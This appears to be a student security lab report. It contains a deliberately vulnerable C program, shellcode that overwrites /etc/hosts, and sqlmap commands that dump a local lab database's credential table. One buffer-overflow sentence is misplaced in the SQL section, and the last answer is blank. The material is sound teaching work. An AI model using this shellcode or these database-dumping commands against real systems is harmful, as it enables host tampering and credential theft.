

https://github.com/Bright-04/Lab1-INSE330380E_24_1_02FIE.git


# Lab Report #1: Vulnerability Exploitation and Database Attack
**Student:** Nguyen Nhat Quang  
**ID:** 22110065  
**Course:** INSE330380E_24_1_02FIE  

## Task 1: Software Buffer Overflow Attack

### Question 1: Stack Frame of the Main Function
Stackframe of the main function:

### Step 1: Create the Vulnerable C Program
To begin, we will create a simple C program that contains a buffer overflow vulnerability.

```bash
# Create vulnerable.c
nano vulnerable.c
```

Copy and paste the following code into `vulnerable.c`:

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[]) {
    char buffer[16];
    strcpy(buffer, argv[1]);
    return 0;
}
```

### Step 2: Compile the Vulnerable Program
Compile the program with security features disabled to facilitate the buffer overflow attack.

```bash
# Compile with security features disabled
gcc -fno-stack-protector -z execstack -mpreferred-stack-boundary=2 -o vulnerable vulnerable.c
```

### Step 3: Create the Shellcode Assembly
Next, we will write our shellcode in assembly language.

```bash
# Create shellcode.asm
nano shellcode.asm
```

Copy and paste the following assembly code into `shellcode.asm`:

```nasm
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ; /etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ; permissions
    int 0x80            ; syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data ; jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ; length of the string
    pop edx
    int 0x80            ; syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ; syscall to close the file

    push 0x1
    pop eax
    int 0x80            ; syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"
```

### Step 4: Compile the Shellcode
Now we will assemble and link our shellcode.

```bash
# Assemble the shellcode
nasm -f elf32 shellcode.asm -o shellcode.o

# Link the object file
ld -m elf_i386 shellcode.o -o shellcode
```

### Step 5: Extract Raw Shellcode Bytes
Finally, we will extract the raw bytes of our shellcode and save them to a file.

```bash
# Extract shellcode bytes and save to file
objdump -d shellcode | grep '[0-9a-f]:' | cut -f2 -d: | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s > shellcode.txt
```

---

# Task 2: Attack on the database of Vulnerable App from SQLi lab 
- Start docker container from SQLi. 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
- Using sqlmap, I was able to get all the information about the available databeses:

```
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=admin&Password=seedadmin" --dbs
```



- According to the output, the 2 available databases are: "information_schema" and "sqllab_users".


**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
```
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=admin&Password=seedadmin" -D information_schema --tables
```

- We need to craft an input payload that will: Fill the buffer (buffer[16]) with some padding. Overwrite the return address with the address pointing to our shellcode.

```
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=admin&Password=seedadmin" -D sqllab_users -T credential --dump
```


**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
    